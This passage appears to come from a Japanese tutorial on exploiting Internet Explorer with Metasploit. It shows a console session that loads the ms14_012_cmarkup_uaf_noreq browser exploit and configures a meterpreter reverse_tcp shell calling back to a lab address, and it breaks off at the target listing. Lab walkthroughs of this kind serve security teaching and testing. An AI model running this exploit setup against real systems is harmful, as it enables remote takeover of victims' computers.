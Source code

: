 モジュール ファイルは、msfconsole を起動したときに読み込まれるので、msfconsole を再起動します。モジュール名で ms14_012_cmarkup_uaf_noreq を指定している以外は、先ほどと同じです。

 
```
msf exploit(ms14_012_cmarkup_uaf) > exit

[*] Server stopped. 
alice@kali:~$ sudo msfconsole 
[sudo] password for alice: 
_                                                    _ 
/ \    /\         __                         _   __  /_/ __ 
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \ 
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -| 
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_ 
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


Taking notes in notepad? Have Metasploit Pro track & report 
your progress and findings -- learn more on http://rapid7.com/metasploit

       =[ metasploit v4.9.3-2014072301 [core:4.9 api:1.0] ] 
+ -- --=[ 1334 exploits - 804 auxiliary - 227 post        ] 
+ -- --=[ 346 payloads - 35 encoders - 8 nops             ] 
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/windows/browser/ms14_012_cmarkup_uaf_noreq 
msf exploit(ms14_012_cmarkup_uaf_noreq) > set SRVHOST 10.10.10.80 
SRVHOST => 10.10.10.80 
msf exploit(ms14_012_cmarkup_uaf_noreq) > set URIPATH snowman 
URIPATH => snowman 
msf exploit(ms14_012_cmarkup_uaf_noreq) > set PAYLOAD windows/meterpreter/reverse_tcp 
PAYLOAD => windows/meterpreter/reverse_tcp 
msf exploit(ms14_012_cmarkup_uaf_noreq) > set LHOST 10.10.10.80 
LHOST => 10.10.10.80 
msf exploit(ms14_012_cmarkup_uaf_noreq) > set LPORT 4455 
LPORT => 4455 
msf exploit(ms14_012_cmarkup_uaf_noreq) > show options

Module options (exploit/windows/browser/ms14_012_cmarkup_uaf_noreq):

   Name        Current Setting  Required  Description 
   ----        ---------------  --------  ----------- 
   Retries     false            no        Allow the browser to retry the module 
   SRVHOST     10.10.10.80      yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0 
   SRVPORT     8080             yes       The local port to listen on. 
   SSL         false            no        Negotiate SSL for incoming connections 
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated) 
   SSLVersion  SSL3             no        Specify the version of SSL that should be used (accepted: SSL2, SSL3, TLS1) 
   URIPATH     snowman          no        The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description 
   ----      ---------------  --------  ----------- 
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none) 
   LHOST     10.10.10.80      yes       The listen address 
   LPORT     4455             yes       The listen port


Exploit target:
```